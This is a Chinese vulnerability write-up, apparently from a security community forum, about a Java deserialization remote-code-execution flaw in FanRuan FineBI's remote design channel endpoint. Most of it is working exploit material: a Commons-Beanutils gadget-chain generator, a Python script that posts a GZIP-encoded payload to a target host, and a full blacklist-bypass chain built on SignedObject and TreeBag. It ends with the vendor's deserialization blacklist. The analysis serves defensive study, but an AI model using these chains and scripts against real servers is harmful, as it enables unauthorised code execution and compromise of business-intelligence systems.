







# 奇安信攻防社区-帆软channel接口反序列化漏洞分析

### 环境

fineBi 5.1.0

fineBi5.1.18（绕过）

### 漏洞分析

漏洞接口为`/webroot/decision/remote/design/channel`，在`fine-decision-report-10.0.jar`中，接口对应`com.fr.decision.extension.report.api.remote.RemoteDesignResource`类的`onMessage`方法。

在`onMessage`方法中，获取`request`中的输入流，以此作为参数调用`WorkContext.handleMessage`方法。


在`com.fr.workspace.WorkContext`的`handleMessage`方法中，调用了`messageListener.handleMessage(var0)`。


会调用到`com.fr.workspace.engine.rpc.WorkspaceServerInvoker`的`handleMessage`方法，在该方法中调用当前类的`deserializeInvocation`方法。


在`deserializeInvocation`方法中，调用了`SerializerHelper.deserialize`来对`request`输入流进行反序列化，传入两个参数，一个是输入流，一个是`Serializer`对象。


`Serializer`对象是通过以`InvocationSerializer.getDefault()`作为参数调用`GZipSerializerWrapper.wrap`方法获取。

`InvocationSerializer.getDefault()`方法是创建`InvocationSerializer`对象。


`GZipSerializerWrapper.wrap`方法是创建`GZipSerializerWrapper`对象，并且将`InvocationSerializer`对象作为`this.serializer`的值。


接着调用`SerializerHelper.deserialize`来对`request`输入流进行反序列化，这里的`var1`为`GZipSerializerWrapper`对象，将会调用`GZipSerializerWrapper`的`deserialize`方法。


在`com.fr.serialization.GZipSerializerWrapper`的`deserialize`方法中，会调用`this.serializer`的`deserialize`方法，这里的`this.serializer`为`InvocationSerializer`对象。


最终会调用`com.fr.rpc.serialization.InvocationSerializer`的`deserialize`方法，`var1`为`request`输入流，调用了`readObject`进行反序列化。



`inputstream`输入流在`com.fr.serialization.GZipSerializerWrapper`的`deserialize`方法中会被包装成`GZIPInputStream`对象，在发送数据的时候需要将`inputstream`进行`GZIP`编码。

### 利用链

在`fine-bi-engine-third-5.1.jar`包中集成了`CB`链依赖


生成利用链

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;
import java.util.zip.GZIPInputStream;
import java.util.zip.GZIPOutputStream;

public class CB_not_cc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();

        Class&lt;? extends TemplatesImpl&gt; templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "aaa");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        // 自定义类
        ClassPool pool = ClassPool.getDefault();
        String clazzName = "onload";
        CtClass targetClass = pool.makeClass(clazzName);
        targetClass.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        CtConstructor cons = new CtConstructor(new CtClass[] {}, targetClass);

        cons.setBody("{Runtime.getRuntime().exec(\"calc\");}");
        targetClass.addConstructor(cons);
        byte[] byteArray = targetClass.toBytecode();

        byte[][] payloads = {byteArray};
        bytecodes.set(templates, payloads);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);

        PriorityQueue queue = new PriorityQueue(2, beanComparator);
        queue.add("a");
        queue.add("b");

        Class&lt;? extends BeanComparator&gt; beanComparatorClass = beanComparator.getClass();
        Field property = beanComparatorClass.getDeclaredField("property");
        property.setAccessible(true);
        property.set(beanComparator, "outputProperties");

        Class&lt;? extends PriorityQueue&gt; queueClass = queue.getClass();
        Field queue1 = queueClass.getDeclaredField("queue");
        queue1.setAccessible(true);
        queue1.set(queue, new Object[]{templates,templates});

        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(queue);

        // 包装成ZIP
        final ByteArrayOutputStream baos3 = new ByteArrayOutputStream();
        final GZIPOutputStream gos3 = new GZIPOutputStream(baos3);
        gos3.write(baos.toByteArray());
        gos3.finish();

        String base64str = Base64.getEncoder().encodeToString(baos3.toByteArray());
        System.out.println(base64str);

        // 执行反序列化
        final ByteArrayInputStream bais = new ByteArrayInputStream(Base64.getDecoder().decode(base64str));
        final GZIPInputStream gis = new GZIPInputStream(bais);
        ObjectInputStream ois = new ObjectInputStream(gis);
        ois.readObject();

    }

}
```


通过py脚本利用

```python
import requests,base64

host= "http://172.20.10.190:37799/"

payload = "H4sIAAAAAAAAAGWTT2sTQRjGn9lNkzRNaxtta70Jgm2FXcWDYMU/DQjBUKst9pBCmGyGuLKZXWdm261gD/0AnvwW9lIQFQ+CVw9614sXjx7EiyBW381G09pd2Jl5Zt73mfc3s7tfMaQVph/wDe7Exg+cZeWHyjdbd2IRi6cfzz//eW1nz4ZVQ077j0QdJS/sRlxxEyqDqXoa6aaRbvWfvpBEACxKfC5UHYdH3LsvHIrrhlI7LcFlGqCdReoNoj48YTv7S9+2LViHXB5iG6yOYqTCSCizZVDJXAMuO+6KUb7skCO5zffKSGUnk89UuRY1qYXUvvE3xMBs015/vL785b0FJJHBeBibKDbLmYUv9GaOKrAp52XaiKNj6RyoJOHk4fjSCCV54CQ6MJ5jFE+cVdGNAm6ErlE7vHb7rdx9dtFGvobRpi/bQpqluNsSqoaxJgVIHQhTIz1poNRsbRnhhW2hDexGY7GBfNMLuKZhpXGg4mqqLdQx1JS8K1I6uTommv9XcPhwBnp2OPhNT6x6Rrd+zUx2Op8u9VjQFCPdaizufp/+kS+ufu7LzHu3//oNTV/ADEM+lEHI2wUwhuuEyCVELiFyM0RuD5H7F5HbQ+SqWBq/K9wbLU3Fe2a1T6AAmzJe8aVvrjLYs3P3GHJVIkETZQwhX0IRwwwTAwh3s1QFjDCUOsL0xwyTs3P1I8sWyhjFWAllHKPMHg+8IiaoJxLhMZydPXqfDiYhdp4g5GUcx4k0ySR5roSx8sRNPyDPkQyGk4bgNCykl4eI0Uubp2+BRqdIZ9SOzb9E6RXGK5UXmFrb66+cTn8YnKSraHPOo02GJD3Z0eQPQVjlt6IDAAA="
data = base64.b64decode(payload)

res = requests.post(url=host+"/webroot/decision/remote/design/channel", data=data,verify=False, proxies={"http": "http:127.0.0.1:8080"})

print(res.text)
```

不过这里发现一个问题，当使用`commons-beanutils 1.9.2` 生成反序列化数据提交不会利用成功，通过arthas调试会发现报错`java.io.InvalidClassException: org.apache.commons.beanutils.BeanComparator; local class incompatible: stream classdesc serialVersionUID = -2044202215314119608, local class serialVersionUID = -3490850999041592962`，这是由于`commons-beanutils`版本跟帆软环境中的不一致造成的，将生成序列化数据的环境从`1.9.2`换到`1.8.3`即可。


### 修复方式

在`5.1.18`版本中，`InputStream`对象已被`JDKSerializer.CustomObjectInputStream`类重新封装。



重写了`resolveClass`方法，如果被序列化的类名在`BLACK_SET`变量中，则不会进行序列化。



从`/com/fr/serialization/blacklist.txt`中得到禁止类序列化的名单。

  
在`fine-core-10.0.jar`中的`com.fr.serialization.blacklist.txt`路径下


### 二次反序列化绕过限制

通过`blacklist.txt`黑名单可以看到，常规利用链都已经在黑名单中，那么真的就没有办法进行利用了吗？根据师傅们的高见，得知可以利用`SignedObject` 类进行反序列化绕过黑名单中的类名再次反序列化进行利用，俗称二次反序列化。

在`java.security.SignedObject`类中存在一个`getObject`方法，这个方法会`this.content`变量进行反序列化。


而`SignedObject`类的构造方法会将传入的`object`对象进行序列化，并赋值给`this.content`变量。


那么通过`SignedObject`这个类，可以将某个利用链，如CB链触发点`PriorityQueue`对象，作为参数传递进去，再找到一条路径调用`getObject`方法，便可以实现二次反序列化。

`getObject`属于`getter`方法，在`fastjson`中，对一个类进行序列化会自动调用该类的`静态代码块`、`构造方法`、`getter`方法。


但是在帆软环境中是没有`fastjson`依赖的，帆软中对`json`的处理是使用的`jackson`；在`jackson`中序列化一个类也有着类似的效果。


在`com.fr.third.fasterxml.jackson.databind.node.InternalNodeMapper`类中，`nodeToString`方法和`nodeToPrettyString`方法都调用了`writeValueAsString`对`JsonNode`进行序列化。


而在`com.fr.third.fasterxml.jackson.databind.node.BaseJsonNode`的`toString`和`toPrettyString`方法中也对如上两个方法分别进行调用；`this`代表所传入进行序列化的对象是当前调用的对象，当`BaseJsonNode`对象和继承了`BaseJsonNode`的对象调用到`toString`方法，就会调用`InternalNodeMapper.nodeToPrettyString(this)`对当前调用的对象进行序列化，自动调用`getter`方法。


`BaseJsonNode`类被18个子类继承。


在这个18个子类中，只有`POJONode`类的构造方法能传入`Object`对象。

  
这里，我们将`SignedObject`对象作为参数，创建一个`POJONode`对象，并调用其`toString`方法，并在`SignedObject`的`getObject`中打上断点，运行便调用到了该方法。


调用栈

```java
getObject:177, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
serializeAsField:690, BeanPropertyWriter (com.fr.third.fasterxml.jackson.databind.ser)
serializeFields:755, BeanSerializerBase (com.fr.third.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fr.third.fasterxml.jackson.databind.ser)
defaultSerializeValue:1119, SerializerProvider (com.fr.third.fasterxml.jackson.databind)
serialize:115, POJONode (com.fr.third.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fr.third.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fr.third.fasterxml.jackson.databind.ser.std)
_serialize:481, DefaultSerializerProvider (com.fr.third.fasterxml.jackson.databind.ser)
serializeValue:320, DefaultSerializerProvider (com.fr.third.fasterxml.jackson.databind.ser)
serialize:1517, ObjectWriter$Prefetch (com.fr.third.fasterxml.jackson.databind)
_writeValueAndClose:1218, ObjectWriter (com.fr.third.fasterxml.jackson.databind)
writeValueAsString:1087, ObjectWriter (com.fr.third.fasterxml.jackson.databind)
nodeToString:30, InternalNodeMapper (com.fr.third.fasterxml.jackson.databind.node)
toString:136, BaseJsonNode (com.fr.third.fasterxml.jackson.databind.node)
main:84, Test (example)
```

将`SignedObject`封装在`POJONode`类中，调用其`toString`方法，便触发了`SignedObject`的`getObject`方法。为了在执行反序列化`readObject`中调用到`POJONode`的`toString`方法，接下来还需要找到一条直接或间接的点能够触发`POJONode`的`toString`方法的点。

在`javax.management.BadAttributeValueExpException`的`readObject`方法中，调用了`toString`方法。


并且`this.val`可通过构造方法进行传递。

  
将`POJONode`对象封装在`BadAttributeValueExpException`中，可直接进行触发。


但是不幸的是，该链在某个版本已经遭遇黑名单的残害了；不过还存在一个点，在`org.apache.commons.collections.bag.TreeBag`的`readObject`方法中，创建了`TreeMap`对象传入，调用了父类的`doReadObject`方法。


`doReadObject`方法调用了`TreeMap`的`put`方法


`TreeMap`的`put`方法中调用了`compare`对`key`值进行比较，这里的`comparator`对象可以在创建`TreeBag`对象时传入，那么可以在创建`TreeBag`对象时，通过传入指定`comparator`对象，执行反序列化时就会自动调用`comparator`对象的`compare`方法。


那么在`org.freehep.util.VersionComparator`的`compare`方法中，调用了`toString`方法。



不过`VersionComparator`这个类并没有继承`Serializable`反序列化接口，不能进行序列化。



到这儿就完了吗？并没有，有时候不得不佩服师傅们的智慧。在`com.fr.base.ClassComparator`这个类中，可指定类名创建`ClassComparator`对象，在执行`compare`方法时，会反射加载指定的类名，并调用其`compare`方法，关键的是继承了`Serializable`接口。



所以这里选择将`VersionComparator`类的包名`org.freehep.util.VersionComparator`作为参数创建`ClassComparator`对象，最后再将`ClassComparator`对象作为创建`TreeBag`对象的参数，执行反序列化时，就会调用到`ClassComparator`的`compare`方法。

#### 调用链

最终的调用链如下。

```php
org.apache.commons.collections.bag.TreeBag#readObject
    java.util.TreeMap#put
        java.util.TreeMap#compare
            com.fr.base.ClassComparator#compare
                org.freehep.util.VersionComparator#compare
                    com.fr.third.fasterxml.jackson.databind.node.POJONode#toString
                        java.security.SignedObject#getObject
                            // 二次反序列化利用CB链
```

#### 坑点

在构造利用链的时候遇到的一些问题。

##### add添加`POJONode`对象坑点

在序列化`TreeBag`类的时候，需要`add`添加被触发的`POJONode`对象，但是执行`add`会提前触发漏洞执行，为了防止提前触发漏洞，需要先`add`一个无关紧要的对象，然后再通过反射修改数据为`POJONode`对象。

```java
final Class&lt;?&gt; superclass = treeBag.getClass().getSuperclass();
final Field map = superclass.getDeclaredField("map");
map.setAccessible(true);
final Map treeMap = (Map) map.get(treeBag);
final Field root = treeMap.getClass().getDeclaredField("root");
root.setAccessible(true);
final Map.Entry  mapEnter = (Map.Entry) root.get(treeMap);
final Class&lt;? extends Map.Entry&gt; aClass = mapEnter.getClass();
final Field key = aClass.getDeclaredField("key");
key.setAccessible(true);
key.set(mapEnter, node);
```

##### 执行writeObject会自动触发调用

当按照调用链，把整条链子构造出来，执行`writeObject`序列化的时候，会提前触发调用，并且会报错，导致序列化后的数据不能正常生成。


报错提示


解决办法是将`com.fr.third.fasterxml.jackson.databind.node.BaseJsonNode`类反射加载，获取到`writeReplace`方法，移除掉，即可正常生成。

```java
final CtClass ctClass = ClassPool.getDefault().get("com.fr.third.fasterxml.jackson.databind.node.BaseJsonNode");
final CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
ctClass.removeMethod(writeReplace);
ctClass.toClass();
```

#### 生成exp

```java
package example;

import com.fr.base.ClassComparator;
import com.fr.third.fasterxml.jackson.databind.node.POJONode ;
import javassist.CtMethod;
import org.apache.commons.collections.bag.TreeBag;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.*;
import java.util.zip.GZIPOutputStream;

public class Test {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templates = new TemplatesImpl();

        Class&lt;? extends TemplatesImpl&gt; templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "aaa");

        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        // 自定义类
        ClassPool pool = ClassPool.getDefault();
        String clazzName = "onload";
        CtClass targetClass = pool.makeClass(clazzName);
        targetClass.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        CtConstructor cons = new CtConstructor(new CtClass[] {}, targetClass);

        cons.setBody("{Runtime.getRuntime().exec(\"calc\");}");
        targetClass.addConstructor(cons);
        byte[] byteArray = targetClass.toBytecode();

        byte[][] payloads = {byteArray};
        bytecodes.set(templates, payloads);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);

        PriorityQueue queue = new PriorityQueue(2, beanComparator);
        queue.add("a");
        queue.add("b");

        Class&lt;? extends BeanComparator&gt; beanComparatorClass = beanComparator.getClass();
        Field property = beanComparatorClass.getDeclaredField("property");
        property.setAccessible(true);
        property.set(beanComparator, "outputProperties");

        Class&lt;? extends PriorityQueue&gt; queueClass = queue.getClass();
        Field queue1 = queueClass.getDeclaredField("queue");
        queue1.setAccessible(true);
        queue1.set(queue, new Object[]{templates,templates});

        final CtClass ctClass = ClassPool.getDefault().get("com.fr.third.fasterxml.jackson.databind.node.BaseJsonNode");
        final CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();

        // 二次反序列化
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        final SignedObject dsa = new SignedObject(queue, kp.getPrivate(), Signature.getInstance("DSA"));

//        dsa.getObject();
        POJONode node = new POJONode(dsa);

//        final VersionComparator versionComparator = new VersionComparator();
//        versionComparator.compare(node, node);

        final ClassComparator classComparator = new ClassComparator("org.freehep.util.VersionComparator");
//        classComparator.compare(node, node);
        final TreeBag treeBag = new TreeBag(classComparator);
        treeBag.add(-1);

        // 反射修改 root 属性的key
        final Class&lt;?&gt; superclass = treeBag.getClass().getSuperclass();
        final Field map = superclass.getDeclaredField("map");
        map.setAccessible(true);
        final Map treeMap = (Map) map.get(treeBag);
        final Field root = treeMap.getClass().getDeclaredField("root");
        root.setAccessible(true);
        final Map.Entry  mapEnter = (Map.Entry) root.get(treeMap);
        final Class&lt;? extends Map.Entry&gt; aClass = mapEnter.getClass();
        final Field key = aClass.getDeclaredField("key");
        key.setAccessible(true);
        key.set(mapEnter, node);

        //  序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(treeBag);

        final ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        final GZIPOutputStream gzipOutputStream = new GZIPOutputStream(byteArrayOutputStream);
        gzipOutputStream.write(baos.toByteArray());
        gzipOutputStream.finish();

        final String encodeToString = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(encodeToString);

//        // 执行反序列化
        final ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();

    }
}
```



### 反序列化类黑名单

```php

bsh.XThis
bsh.Interpreter
com.mchange.v2.c3p0.PoolBackedDataSource
com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase
clojure.lang.PersistentArrayMap
clojure.inspector.proxy$javax.swing.table.AbstractTableModel$ff19274a
org.apache.commons.beanutils.BeanComparator
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors.ChainedTransformer
org.apache.commons.collections.functors.ConstantTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections.map.LazyMap
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.keyvalue.TiedMapEntry
org.apache.commons.collections.map.TransformedMap
org.apache.commons.collections.functors.MapTransformer
org.apache.commons.collections.comparators.TransformingComparator
org.apache.commons.collections4.Transformer
org.apache.commons.collections4.comparators.TransformingComparator
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.collections4.functors.ChainedTransformer
org.apache.commons.collections4.functors.ConstantTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.apache.commons.collections4.map.LazyMap
org.apache.commons.collections4.keyvalue.TiedMapEntry
org.apache.commons.collections4.map.TransformedMap
org.apache.commons.collections4.functors.MapTransformer
org.apache.commons.fileupload.disk.DiskFileItem
org.apache.commons.io.output.DeferredFileOutputStream
org.apache.commons.io.output.ThresholdingOutputStream
com.fr.third.org.apache.commons.beanutils.BeanComparator
com.fr.third.org.apache.commons.collections.Transformer
com.fr.third.org.apache.commons.collections.comparators.TransformingComparator
com.fr.third.org.apache.commons.collections.functors.ChainedTransformer
com.fr.third.org.apache.commons.collections.functors.ConstantTransformer
com.fr.third.org.apache.commons.collections.functors.InstantiateTransformer
com.fr.third.org.apache.commons.collections.map.LazyMap
com.fr.third.org.apache.commons.collections.functors.MapTransformer
com.fr.third.org.apache.commons.collections.functors.InvokerTransformer
com.fr.third.org.apache.commons.collections.keyvalue.TiedMapEntry
com.fr.third.org.org.apache.commons.collections.map.TransformedMap
com.fr.third.org.apache.commons.collections4.comparators.TransformingComparator
com.fr.third.org.apache.commons.collections4.functors.InvokerTransformer
com.fr.third.org.apache.commons.collections4.functors.ChainedTransformer
com.fr.third.org.apache.commons.collections4.functors.ConstantTransformer
com.fr.third.org.apache.commons.collections4.functors.InstantiateTransformer
com.fr.third.org.apache.commons.collections4.keyvalue.TiedMapEntry
com.fr.third.org.org.apache.commons.collections4.map.TransformedMap
com.fr.third.org.apache.commons.collections4.map.LazyMap
com.fr.third.org.apache.commons.collections4.functors.MapTransformer
com.fr.third.org.apache.commons.collections4.Transformer
com.fr.third.org.apache.commons.fileupload.disk.DiskFileItem
com.fr.third.org.apache.commons.io.output.DeferredFileOutputStream
com.fr.third.org.apache.commons.io.output.ThresholdingOutputStream
org.apache.wicket.util.upload.DiskFileItem
org.apache.wicket.util.io.DeferredFileOutputStream
org.apache.wicket.util.io.ThresholdingOutputStream
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.MethodClosure
org.hibernate.engine.spi.TypedValue
org.hibernate.tuple.component.AbstractComponentTuplizer
org.hibernate.tuple.component.PojoComponentTuplizer
org.hibernate.type.AbstractType
org.hibernate.type.ComponentType
org.hibernate.type.Type
org.hibernate.EntityMode
com.fr.third.org.hibernate.engine.spi.TypedValue
com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer
